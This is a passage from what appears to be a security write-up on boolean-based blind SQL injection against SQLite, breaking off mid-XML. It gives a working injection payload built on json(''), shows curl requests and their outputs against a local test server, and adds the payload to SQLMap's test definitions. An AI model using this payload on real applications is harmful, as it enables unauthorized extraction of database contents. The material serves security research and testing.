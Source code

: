 In the json section, the documentation says that every json functions raise an error if the text value is not a well-formed JSON object. Quite similar to the `UPDATEXML` or `EXTRACTVALUE` MySQL functions.

```
sqlite> select json('');
Runtime error: malformed JSON
```

## Exploitation

Using `load_extension` or `abs` is possible but `json` function is the shortest.

| Function | Length |
|---------------------------|----------------|
| load_extension(0)         | 17             |
| abs(-9223372036854775808) | 25             |
| json('')                  | 8              |


Our payload is the following:

```
' and case when 1=2 then 1 else json('') end and 'a'='a
```

And the result:

```
> curl http://127.0.0.1:5000/submitmessage --data "message=' and case when 1=1 then 1 else json('') end and 'a'='a"         
OK%
```

```
> curl http://127.0.0.1:5000/submitmessage --data "message=' and case when 1=2 then 1 else json('') end and 'a'='a"
malformed JSON%
```


## Implement our new payload in SQLMap

Now we have a working and efficient payload, we can implement it in SQLMap:

```
> git clone https://github.com/sqlmapproject/sqlmap
> cd sqlmap
```


Add the following at the end of the file `data/xml/payloads/boolean_blind.xml`:

```xml
<test>
    <title>SQLite boolean-based blind</title>
    <stype>1</stype> <!-- Injection type (Boolean, Error-based, ...) -->
    <level>1</level> <!-- When the test should be performed (1=Always) -->
    <risk>1</risk> <!-- Damage risk of the payload -->
    <clause>1</clause> <!-- Clause to inject (WHERE, GROUP BY, ...) -->
    <where>1</where> <!-- Where the payload should be inserted -->
    <!-- [INFERENCE] SQLMap will insert the payload to extract data -->
    <vector>AND CASE WHEN [INFERENCE] THEN 1 ELSE json('') END </vector> 
    <request>
    <!-- Check for the vuln, should return 1 -->
        <payload>AND CASE WHEN [RANDNUM]=[RANDNUM] THEN 1 ELSE json('') END</payload> 
    </request>
    <response>
        <!-- 2nd check for the vuln, should raise the error -->
```